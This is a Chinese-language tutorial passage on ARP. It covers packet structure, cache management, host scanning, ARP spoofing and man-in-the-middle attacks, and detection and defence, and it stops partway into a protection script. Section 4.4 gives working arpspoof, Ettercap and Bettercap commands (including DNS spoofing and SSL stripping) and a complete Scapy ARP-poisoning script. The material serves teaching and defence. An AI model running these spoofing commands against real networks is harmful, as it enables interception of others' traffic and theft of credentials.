



## 四、ARP相关技巧

ARP（Address Resolution Protocol，地址解析协议）是局域网通信的基石——每一帧以太网数据在发出之前，都必须先通过ARP将目标IP解析为MAC地址。正因如此，掌握ARP的操作技巧不仅是网络管理的基本功，更是内网渗透和防御的核心能力。本节从协议原理出发，系统讲解ARP缓存管理、主动扫描、欺骗攻击、检测防御四大技能树。

### 4.1 ARP协议深入理解

#### 4.1.1 ARP报文结构

ARP报文直接封装在以太网帧中（类型字段 0x0806），其内部结构如下：

```text
| 硬件类型(2B) | 协议类型(2B) | 硬件地址长度(1B) | 协议地址长度(1B) | 操作码(2B) |
| 发送方MAC(6B) | 发送方IP(4B) |
| 目标MAC(6B) | 目标IP(4B) |
```

| 字段 | 长度 | 说明 |
|------|------|------|
| 硬件类型 | 2字节 | 1 = 以太网 |
| 协议类型 | 2字节 | 0x0800 = IPv4 |
| 硬件地址长度 | 1字节 | 6（MAC地址长度） |
| 协议地址长度 | 1字节 | 4（IPv4地址长度） |
| 操作码 | 2字节 | 1 = ARP请求，2 = ARP回复 |
| 发送方MAC | 6字节 | 发送方的物理地址 |
| 发送方IP | 4字节 | 发送方的IP地址 |
| 目标MAC | 6字节 | 请求时为 00:00:00:00:00:00，回复时填真实MAC |
| 目标IP | 4字节 | 要解析的目标IP地址 |

操作码是理解ARP行为的关键：`opcode=1` 是请求（广播），`opcode=2` 是回复（单播）。攻击者伪造的正是 opcode=2 的回复报文。

#### 4.1.2 ARP工作流程

ARP的完整解析过程可以用以下流程表示：



核心要点：
- **ARP请求是广播**：目标MAC为 `ff:ff:ff:ff:ff:ff`，同一广播域内所有主机都能收到
- **ARP回复是单播**：直接发送给请求方，但因为是单播，理论上只有请求方会处理
- **无认证机制**：ARP协议不验证回复的真实性，任何主机都可以声称"我是某个IP"——这是所有ARP攻击的根源
- **缓存有有效期**：Linux默认ARP缓存条目在超时后会被清除（可通过 `/proc/sys/net/ipv4/neigh/*/gc_stale_time` 查看）

#### 4.1.3 ARP的变体协议

| 协议 | 全称 | 用途 |
|------|------|------|
| RARP | Reverse ARP | MAC→IP解析，已被DHCP取代 |
| InARP | Inverse ARP | 帧中继网络中使用，获取对端IP |
| GARP | Gratuitous ARP | 无请求的ARP回复，用于IP冲突检测和更新缓存 |
| Proxy ARP | 代理ARP | 路由器代替目标主机回复ARP请求，用于跨子网通信 |

Gratuitous ARP（免费ARP/GARP）在安全攻防中尤为重要：它不需要收到请求就主动发送回复，攻击者可以利用它批量毒化整个子网的ARP缓存。

### 4.2 ARP缓存管理

ARP缓存表是操作系统维护的 IP→MAC 映射表。熟练管理ARP缓存是网络诊断和安全防御的基础。

#### 4.2.1 查看ARP缓存

```bash
# 传统命令（所有平台通用）
arp -a

# Linux 现代命令（推荐）
ip neigh show

# 仅显示已确认的条目（状态为 REACHABLE 或 PERMANENT）
ip neigh show nud reachable

# Windows 平台
arp -a

# macOS 平台
arp -a

# 查看特定接口的ARP缓存
ip neigh show dev eth0
```

`arp -a` 的输出示例：

```text
? (192.168.1.1) at aa:bb:cc:dd:ee:ff [ether] on eth0
? (192.168.1.100) at 11:22:33:44:55:66 [ether] on eth0
```

`ip neigh show` 的输出更丰富，包含条目状态：

```text
192.168.1.1 dev eth0 lladdr aa:bb:cc:dd:ee:ff REACHABLE
192.168.1.100 dev eth0 lladdr 11:22:33:44:55:66 STALE
```

ARP条目状态说明：

| 状态 | 含义 | 触发条件 |
|------|------|----------|
| REACHABLE | 可达，条目有效且活跃 | 收到ARP回复后 |
| STALE | 过期，下次使用时会重新验证 | 超过 gc_stale_time 未使用 |
| DELAY | 延迟中，正在等待确认 | 发送数据后短暂等待ARP回复 |
| INCOMPLETE | 不完整，已发ARP请求但未收到回复 | ARP请求已发送，等待回复中 |
| PERMANENT | 永久，静态配置不会过期 | 手动添加的静态ARP条目 |
| FAILED | 解析失败 | ARP请求超时无回复 |

#### 4.2.2 删除ARP缓存条目

当ARP缓存被污染（可能因ARP欺骗攻击）或网络配置变更后，需要手动清除：

```bash
# 删除特定IP的ARP条目（Linux）
sudo ip neigh del 192.168.1.1 dev eth0

# 清除指定接口的全部动态ARP条目（Linux）
sudo ip neigh flush dev eth0

# 清除全部ARP缓存（Linux）
sudo ip neigh flush all

# macOS
sudo arp -d 192.168.1.1

# Windows（管理员权限）
arp -d *
# 或清除特定条目
arp -d 192.168.1.1
```

实际操作场景：
- 遭受ARP欺骗攻击后，清除被污染的缓存条目可以暂时恢复网络
- 网关设备更换后，旧的MAC映射会导致通信失败
- VLAN调整或子网重新规划后需要刷新ARP缓存

#### 4.2.3 静态ARP绑定

手动绑定IP-MAC对应关系是防御ARP欺骗的基本手段：

```bash
# Linux：添加静态ARP条目
sudo ip neigh replace 192.168.1.1 lladdr aa:bb:cc:dd:ee:ff nud permanent dev eth0

# macOS
sudo arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff

# Windows（管理员权限）
netsh interface ipv4 add neighbors "以太网" 192.168.1.1 aa-bb-cc-dd-ee-ff

# 传统方式（Linux，也可用但 ip neigh replace 更灵活）
sudo arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff
```

永久化配置（重启后依然生效）：

```bash
# 方法一：/etc/network/interfaces（Debian系）
auto eth0
iface eth0 inet static
    address 192.168.1.10
    netmask 255.255.255.0
    gateway 192.168.1.1
    post-up arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff

# 方法二：NetworkManager dispatcher 脚本（适用于使用NM的发行版）
# 创建 /etc/NetworkManager/dispatcher.d/50-arp-bind
#!/bin/bash
if [ "$2" = "up" ]; then
    ip neigh replace 192.168.1.1 lladdr aa:bb:cc:dd:ee:ff nud permanent dev "$1"
fi
# chmod +x /etc/NetworkManager/dispatcher.d/50-arp-bind

# 方法三：systemd 启动脚本
# 创建 /etc/systemd/system/arp-static.service
# [Unit]
# Description=Static ARP Binding
# After=network.target
# [Service]
# Type=oneshot
# ExecStart=/sbin/ip neigh replace 192.168.1.1 lladdr aa:bb:cc:dd:ee:ff nud permanent dev eth0
# [Install]
# WantedBy=multi-user.target
```

静态绑定的局限性：
- 需要手动维护，IP-MAC映射变更时必须同步更新
- 大规模网络中管理成本极高
- 只能保护配置了静态绑定的设备，无法保护整个子网
- 企业环境中更适合使用交换机端的 DAI（动态ARP检测）

#### 4.2.4 ARP缓存相关内核参数调优（Linux）

```bash
# 查看当前ARP缓存超时时间（秒）
cat /proc/sys/net/ipv4/neigh/eth0/gc_stale_time
# 默认值通常是 60 秒

# 设置ARP条目超时时间为 120 秒
sudo sysctl -w net.ipv4.neigh.eth0.gc_stale_time=120

# ARP缓存表大小上限
cat /proc/sys/net/ipv4/neigh/eth0/gc_thresh1  # 少于此值不回收（默认128）
cat /proc/sys/net/ipv4/neigh/eth0/gc_thresh2  # 软上限（默认512）
cat /proc/sys/net/ipv4/neigh/eth0/gc_thresh3  # 硬上限，超过就开始强制回收（默认1024）

# 大型网络中增大ARP缓存容量
sudo sysctl -w net.ipv4.neigh.eth0.gc_thresh1=1024
sudo sysctl -w net.ipv4.neigh.eth0.gc_thresh2=2048
sudo sysctl -w net.ipv4.neigh.eth0.gc_thresh3=4096

# 控制是否响应ARP请求（0=不响应，1=响应）
cat /proc/sys/net/ipv4/conf/eth0/arp_ignore
# 0：回复任何本地IP的ARP请求（默认）
# 1：仅回复目标IP是入接口IP的ARP请求
# 2：不仅看目标IP，还看源IP是否在同一子网

# 控制ARP通告行为
cat /proc/sys/net/ipv4/conf/eth0/arp_announce
# 0：使用任意本地IP作为ARP源IP（默认）
# 1：优先使用与目标同子网的本地IP
# 2：始终使用最佳本地IP（避免使用非接口IP）

# 是否允许arp代理
cat /proc/sys/net/ipv4/conf/eth0/proxy_arp
# 0=关闭，1=开启
```

这些参数在高级网络配置和安全加固中非常关键。例如，将 `arp_ignore` 设为 1 可以防止 ARP 泄露非本接口的 IP 地址。

### 4.3 ARP扫描与发现

ARP扫描是内网信息收集的核心技术之一。由于ARP工作在数据链路层，ARP扫描能发现防火墙后面、阻止了ICMP的主机——这是ping扫描无法做到的。

#### 4.3.1 arp-scan

`arp-scan` 是最专业的ARP扫描工具，速度快、输出格式化好：

```bash
# 安装
sudo apt install arp-scan      # Debian/Ubuntu
sudo yum install arp-scan      # CentOS/RHEL

# 扫描本地网络（自动检测子网）
sudo arp-scan --localnet

# 指定接口扫描
sudo arp-scan -I eth0 --localnet

# 扫描特定网段
sudo arp-scan 192.168.1.0/24

# 扫描单个IP（用于确认设备在线）
sudo arp-scan 192.168.1.1

# 快速扫描（每个目标只发一次请求，更快但可能丢包）
sudo arp-scan --retry=1 --localnet

# 增加重试次数以提高可靠性
sudo arp-scan --retry=3 --timeout=500 --localnet

# 输出格式化为MAC厂商解析
sudo arp-scan --localnet --ouifile=/usr/share/arp-scan/ieee-oui.txt

# 扫描结果仅显示活跃主机（抑制未响应的条目）
sudo arp-scan --localnet --suppress-dup

# 输出为纯MAC列表（用于脚本处理）
sudo arp-scan --localnet --format='${mac}' | sort
```

arp-scan 输出示例：

```text
Interface: eth0, type: EN10MB, MAC: 08:00:27:a1:b2:c3, IPv4: 192.168.1.10
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1     aa:bb:cc:dd:ee:ff       Cisco Systems, Inc.
192.168.1.5     00:11:22:33:44:55       (Unknown)
192.168.1.100   66:77:88:99:aa:bb       Xiaomi Communications Co Ltd

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 1.892 seconds (135.31 hosts/sec). 3 responded
```

关键信息解读：
- 每行包含 IP、MAC、OUI厂商名
- 厂商OUI信息可以快速识别设备类型（路由器、手机、IoT设备等）
- 扫描速度极快，256个地址不到2秒

#### 4.3.2 nmap ARP扫描

nmap 自带ARP扫描能力，使用 `-PR` 选项：

```bash
# ARP ping扫描（仅做主机发现，不扫描端口）
sudo nmap -sn -PR 192.168.1.0/24

# ARP扫描 + 端口扫描组合
sudo nmap -PR -sS -p 22,80,443 192.168.1.0/24

# ARP扫描 + OS检测
sudo nmap -PR -O 192.168.1.0/24

# 混合扫描策略：先ARP发现，再TCP扫描（最全面的内网扫描）
sudo nmap -PR -sn -PE -PS443 -PA80 192.168.1.0/24
# -PR  ARP ping
# -PE  ICMP echo ping
# -PS  TCP SYN ping (port 443)
# -PA  TCP ACK ping (port 80)
```

nmap ARP扫描的优势是可以与端口扫描、OS检测、服务版本探测等功能无缝结合，一次完成多层次的信息收集。

#### 4.3.3 netdiscover

`netdiscover` 是一个被动/主动ARP扫描工具，适合长时间监控：

```bash
# 安装
sudo apt install netdiscover

# 主动扫描指定网段
sudo netdiscover -r 192.168.1.0/24

# 主动扫描，仅扫描一次
sudo netdiscover -r 192.168.1.0/24 -c 1

# 被动模式（不发包，仅监听ARP流量）
sudo netdiscover -p

# 指定接口
sudo netdiscover -i eth0 -r 192.168.1.0/24

# 快速模式
sudo netdiscover -r 192.168.1.0/24 -f
```

被动模式的优势是完全静默，不会产生任何网络流量，适合在渗透测试中做隐蔽的信息收集。缺点是需要等待ARP通信自然发生，发现速度取决于网络活跃度。

#### 4.3.4 Scapy自定义ARP扫描

当标准工具无法满足需求时，Scapy可以构建高度定制化的ARP扫描器：

```python
#!/usr/bin/env python3
"""自定义ARP扫描器 - 基于Scapy"""
from scapy.all import Ether, ARP, srp
import sys

def arp_scan(network, iface="eth0", timeout=2):
    """
    ARP扫描指定网段
    :param network: 网段，如 192.168.1.0/24
    :param iface: 网络接口
    :param timeout: 等待超时（秒）
    :return: [(IP, MAC), ...] 列表
    """
    # 构造ARP请求包
    # Ether层：目标MAC为广播地址
    # ARP层：op=1 表示ARP请求
    arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=network)

    # 发送并接收回复
    answered, unanswered = srp(arp_request, iface=iface, timeout=timeout, verbose=False)

    results = []
    for sent, received in answered:
        results.append((received.psrc, received.hwsrc))
    
    return results

def get_vendor(mac):
    """根据MAC前缀查询厂商（简化版）"""
    # 实际应用中可以使用 manuf 或 mac-vendor-lookup 库
    oui_prefixes = {
        "00:50:56": "VMware",
        "08:00:27": "VirtualBox",
        "b8:27:eb": "Raspberry Pi",
        "dc:a6:32": "Raspberry Pi",
        "aa:bb:cc": "示例设备",
    }
    prefix = mac[:8].lower()
    return oui_prefixes.get(prefix, "Unknown")

if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else "192.168.1.0/24"
    print(f"[*] Scanning {target} ...")
    results = arp_scan(target)
    
    print(f"\n[+] Found {len(results)} hosts:\n")
    print(f"{'IP Address':<18} {'MAC Address':<20} {'Vendor'}")
    print("-" * 60)
    for ip, mac in sorted(results, key=lambda x: x[0]):
        vendor = get_vendor(mac)
        print(f"{ip:<18} {mac:<20} {vendor}")
```

Scapy的优势在于灵活性——可以同时发送ARP请求并检查响应中的TTL、响应时间等信息，用于指纹识别或网络性能分析。

### 4.4 ARP欺骗与中间人攻击

ARP欺骗是内网渗透的核心技术。攻击者利用ARP协议无认证的缺陷，通过发送伪造的ARP回复来污染目标的ARP缓存，将自己插入通信路径中间。

#### 4.4.1 ARP欺骗原理

ARP欺骗的核心是"免费ARP"（Gratuitous ARP）的滥用：



**双向毒化是必须的**：只毒化目标机或只毒化网关都会导致单向通信中断，容易被发现。必须同时毒化两端，让双向流量都经过攻击机。

#### 4.4.2 arpspoof 使用详解

`arpspoof` 是 dsniff 套件中的ARP欺骗工具，语法简单直接：

```bash
# 安装 dsniff 套件
sudo apt install dsniff

# 开启IP转发（关键步骤，防止目标断网）
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# 毒化目标机（告诉目标：网关的MAC是攻击机的MAC）
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 毒化网关（告诉网关：目标的MAC是攻击机的MAC）
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

arpspoof 参数说明：

| 参数 | 说明 |
|------|------|
| `-i eth0` | 指定网络接口 |
| `-t <target> <host>` | 向target发送伪造ARP：host的MAC是攻击机的MAC |
| `-r` | 双向欺骗（同时毒化target和host），等价于运行两次-t |
| `-c <host>` | 指定使用的源MAC（默认使用攻击机自己的MAC） |

**注意**：`-r` 参数虽然方便，但两个方向的欺骗包的发送时机可能不完全同步，在高流量网络中可能导致短暂的丢包。分开运行两个arpspoof进程通常更稳定。

#### 4.4.3 Ettercap ARP欺骗

Ettercap 是功能更全面的中间人攻击框架，支持ARP欺骗、DNS欺骗、SSL剥离等多种攻击：

```bash
# 安装
sudo apt install ettercap-graphical   # GUI版本
sudo apt install ettercap-text-only   # 纯文本版本

# 文本模式：ARP毒化整个子网
sudo ettercap -T -M arp:remote /192.168.1.100/ /192.168.1.1/
# -T  文本模式
# -M arp:remote  ARP中间人攻击（remote表示也转发流量）
# 目标格式：/IP/ 或 /MAC/，空表示整个子网

# 仅毒化一个方向
sudo ettercap -T -M arp:oneway /192.168.1.100/ /192.168.1.1/

# 图形界面模式
sudo ettercap -G

# 配合插件使用（如dns_spoof）
sudo ettercap -T -M arp:remote -P dns_spoof /192.168.1.100/ /192.168.1.1/

# 嗅探并保存到文件
sudo ettercap -T -M arp:remote -w capture.pcap /192.168.1.100/ /192.168.1.1/

# 静默模式（不显示ARP包，减少输出噪音）
sudo ettercap -T -q -M arp:remote /192.168.1.100/ /192.168.1.1/
```

Ettercap的优势：
- 自动处理双向ARP欺骗和IP转发
- 内置多种协议解析器（HTTP、FTP、Telnet等）
- 支持插件扩展（DNS欺骗、SSL剥离等）
- 支持过滤器脚本（实时修改经过的数据包）

#### 4.4.4 Bettercap ARP欺骗

Bettercap 是现代替代工具，功能更强大，API更友好：

```bash
# 安装（Go语言版本，推荐）
sudo apt install bettercap
# 或从GitHub下载最新版
# https://github.com/bettercap/bettercap

# 交互模式启动
sudo bettercap -iface eth0

# Bettercap交互命令：
# 查看局域网主机
> net.probe on
> net.show

# ARP欺骗配置
> set arp.spoof.targets 192.168.1.100   # 设置目标
> set arp.spoof.fullduplex true          # 双向欺骗
> arp.spoof on                           # 启动ARP欺骗

# 嗅探器
> net.sniff on                           # 开始抓包
> set net.sniff.verbose true             # 详细输出
> set net.sniff.local false              # 不显示本机流量

# DNS欺骗（需配合arp.spoof使用）
> set dns.spoof.domains example.com
> set dns.spoof.address 192.168.1.10
> dns.spoof on

# HTTPS降级（SSL stripping）
> set http.proxy.sslstrip true
> http.proxy on
```

Bettercap脚本化模式（适合自动化攻击链）：

```bash
# 一行命令完成ARP欺骗 + 流量嗅探
sudo bettercap -iface eth0 \
    -eval "set arp.spoof.targets 192.168.1.100; set arp.spoof.fullduplex true; arp.spoof on; net.sniff on"

# 使用caplet文件（自动化脚本）
# 创建 attack.cap:
# set arp.spoof.targets 192.168.1.100
# set arp.spoof.fullduplex true
# arp.spoof on
# net.sniff on
# set events.stream.output sniff.pcap
sudo bettercap -iface eth0 -caplet attack.cap
```

Bettercap相比Ettercap的优势：
- 原生支持WiFi deauth攻击
- REST API接口，可以远程控制
- 内置caplet脚本系统，自动化能力强
- 支持实时修改HTTP响应（inject模块）
- 持续更新，社区活跃

#### 4.4.5 Scapy构建ARP欺骗

理解ARP欺骗的底层原理，最好的方式是用Scapy从零构建：

```python
#!/usr/bin/env python3
"""ARP欺骗演示 - 仅供授权测试使用"""
from scapy.all import Ether, ARP, sendp
import time
import sys

def get_mac(ip, iface="eth0"):
    """通过ARP获取目标IP的MAC地址"""
    from scapy.all import srp
    arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip)
    answered, _ = srp(arp_request, iface=iface, timeout=2, verbose=False)
    if answered:
        return answered[0][1].hwsrc
    return None

def spoof(target_ip, spoof_ip, target_mac, iface="eth0"):
    """
    向目标发送伪造ARP回复
    :param target_ip: 要欺骗的目标IP
    :param spoof_ip: 要冒充的IP（通常是网关）
    :param target_mac: 目标的MAC地址
    :param iface: 网络接口
    """
    # op=2 表示ARP回复
    # psrc=spoof_ip 告诉目标"我是spoof_ip"
    # pdst=target_ip 发送给目标
    # hwsrc 使用攻击机自己的MAC（或自定义MAC）
    packet = Ether(dst=target_mac) / ARP(
        op=2,               # ARP回复
        psrc=spoof_ip,      # 冒充的IP
        pdst=target_ip,     # 目标IP
        hwdst=target_mac    # 目标MAC
    )
    sendp(packet, iface=iface, verbose=False)

def restore(target_ip, source_ip, target_mac, source_mac, iface="eth0"):
    """恢复ARP缓存（攻击结束后必须执行）"""
    packet = Ether(dst=target_mac) / ARP(
        op=2,
        psrc=source_ip,
        pdst=target_ip,
        hwdst=target_mac,
        hwsrc=source_mac    # 使用真实的MAC地址
    )
    sendp(packet, count=5, iface=iface, verbose=False)

if __name__ == "__main__":
    target_ip = "192.168.1.100"
    gateway_ip = "192.168.1.1"
    iface = "eth0"

    target_mac = get_mac(target_ip, iface)
    gateway_mac = get_mac(gateway_ip, iface)
    
    if not target_mac or not gateway_mac:
        print("[-] 无法获取目标或网关的MAC地址")
        sys.exit(1)

    print(f"[*] 目标: {target_ip} ({target_mac})")
    print(f"[*] 网关: {gateway_ip} ({gateway_mac})")
    print("[*] 开始ARP欺骗...")

    # 开启IP转发
    import subprocess
    subprocess.run(["sysctl", "-w", "net.ipv4.ip_forward=1"], capture_output=True)

    try:
        packets_sent = 0
        while True:
            # 向目标发送：网关的MAC是我的MAC
            spoof(target_ip, gateway_ip, target_mac, iface)
            # 向网关发送：目标的MAC是我的MAC
            spoof(gateway_ip, target_ip, gateway_mac, iface)
            packets_sent += 2
            print(f"\r[+] 已发送 {packets_sent} 个欺骗包", end="", flush=True)
            time.sleep(2)
    except KeyboardInterrupt:
        print("\n[!] 停止ARP欺骗，正在恢复ARP缓存...")
        restore(target_ip, gateway_ip, target_mac, gateway_mac, iface)
        restore(gateway_ip, target_ip, gateway_mac, target_mac, iface)
        print("[+] ARP缓存已恢复")
```

Scapy构建的优势是可以精确控制每个字段、添加自定义逻辑（如只在特定时间段欺骗、记录欺骗前后的变化等），是理解ARP攻击原理的最佳实践方式。

### 4.5 ARP检测与防御

#### 4.5.1 ARP欺骗检测方法

**方法一：手动检查ARP缓存**

```bash
# 查看ARP缓存，检查是否有重复MAC
ip neigh show | awk '{print $5}' | sort | uniq -d
# 如果有输出，说明多个IP映射到了同一个MAC——极可能是ARP欺骗

# 查看网关MAC是否与预期一致
arp -a | grep "192.168.1.1"
# 将输出的MAC与路由器管理页面显示的MAC对比

# 对比网关MAC的两种方式
# 方式1：通过ARP缓存
arp -n | grep 192.168.1.1 | awk '{print $3}'
# 方式2：通过路由器管理页面或物理标签
```

**方法二：arpwatch 持续监控**

```bash
# 安装
sudo apt install arpwatch

# 启动监控
sudo arpwatch -i eth0 -f /var/lib/arpwatch/arp.dat

# 查看arpwatch日志
sudo tail -f /var/log/syslog | grep arpwatch
```

arpwatch 会在检测到以下异常时记录告警：
- IP-MAC映射发生变化（NEW station / CHANGED station）
- 新设备首次出现在网络中
- MAC地址复用（同一MAC对应多个IP）
- 可疑的ARP回复

**方法三：Scapy实时ARP监控脚本**

```python
#!/usr/bin/env python3
"""ARP欺骗检测器 - 实时监控ARP包"""
from scapy.all import sniff, ARP
import collections
import time

# 记录IP-MAC映射关系
arp_table = {}          # {ip: mac}
alert_count = collections.Counter()  # 统计告警次数

def detect_arp_spoof(packet):
    """检测ARP欺骗：同一IP对应不同MAC"""
    if packet.haslayer(ARP) and packet[ARP].op == 2:  # ARP回复
        ip = packet[ARP].psrc
        mac = packet[ARP].hwsrc
        
        if ip in arp_table:
            if arp_table[ip] != mac:
                print(f"\n[!] ARP欺骗检测！")
                print(f"    IP: {ip}")
                print(f"    原MAC: {arp_table[ip]}")
                print(f"    新MAC: {mac}")
                print(f"    时间: {time.strftime('%Y-%m-%d %H:%M:%S')}")
                alert_count[ip] += 1
                
                # 连续3次告警后自动恢复
                if alert_count[ip] >= 3:
                    print(f"    [!] {ip} 连续{alert_count[ip]}次异常，建议清除ARP缓存")
        else:
            arp_table[ip] = mac
            print(f"[+] 新记录: {ip} → {mac}")

if __name__ == "__main__":
    print("[*] 开始监控ARP流量...")
    print("[*] 正常的ARP回复会被记录，异常会触发告警\n")
    sniff(filter="arp", prn=detect_arp_spoof, store=0)
```

**方法四：arping 验证MAC一致性**

```bash
# arping 直接发送ARP请求，绕过本地ARP缓存
arping -c 3 -I eth0 192.168.1.1

# 输出中可以看到响应的真实MAC地址
# 如果与缓存中的MAC不同，说明发生了ARP欺骗

# 对比脚本
CACHED=$(arp -n 192.168.1.1 | awk '{print $3}')
REAL=$(arping -c 1 -I eth0 192.168.1.1 | grep "reply from" | awk '{print $4}' | tr -d '[]')
if [ "$CACHED" != "$REAL" ]; then
    echo "[!] ARP欺骗检测: 缓存MAC=$CACHED, 真实MAC=$REAL"
else
    echo "[+] ARP缓存一致: $CACHED"
fi
```

#### 4.5.2 企业级ARP防御方案

| 防御方案 | 部署位置 | 原理 | 适用规模 |
|----------|----------|------|----------|
| 静态ARP绑定 | 终端设备 | 手动绑定IP-MAC，不接受动态更新 | 小型网络（<50台） |
| DHCP Snooping | 交换机 | 监听DHCP分配过程，建立合法IP-MAC绑定表 | 中大型网络 |
| DAI（动态ARP检测） | 三层交换机 | 基于DHCP Snooping表验证ARP包的合法性 | 中大型网络 |
| 802.1X认证 | 交换机端口 | 设备必须通过认证才能接入网络 | 企业级网络 |
| 私有VLAN | 交换机 | 隔离同一子网内的主机，阻止直接ARP通信 | 高安全需求 |
| 端口安全 | 交换机 | 限制每个端口可学习的MAC数量 | 所有规模 |
| arpwatch/arpalert | 监控服务器 | 实时监控ARP变化并告警 | 所有规模 |

**DAI 配置示例（Cisco交换机）：**

```text
! 第一步：启用DHCP Snooping
ip dhcp snooping
ip dhcp snooping vlan 10

! 配置信任端口（连接DHCP服务器的端口）
interface GigabitEthernet0/1
  ip dhcp snooping trust

! 第二步：启用DAI
ip arp inspection vlan 10

! 配置信任端口（连接路由器/网关的端口）
interface GigabitEthernet0/24
  ip arp inspection trust

! 可选：对不使用DHCP的静态IP设备，手动添加绑定
ip arp inspection validate src-mac dst-mac ip
arp access-list STATIC-HOSTS
  permit ip host 192.168.1.100 mac host 0011.2233.4455
ip arp inspection filter STATIC-HOSTS vlan 10
```

**端口安全配置示例（限制ARP欺骗扩散）：**

```text
interface GigabitEthernet0/5
  switchport mode access
  switchport port-security
  switchport port-security maximum 2        ! 最多学习2个MAC
  switchport port-security violation shutdown ! 违规直接关闭端口
  switchport port-security mac-address sticky ! 自动学习并固化
```

#### 4.5.3 终端防护脚本

在无法部署企业级交换机方案的环境中，可以在终端设备上部署防护脚本：

```bash
#!/bin/bash
# ARP防护脚本 - 自动检测并恢复ARP缓存
# 使用方式: sudo ./arp_protect.sh

GATEWAY_IP="192.168.1.1"
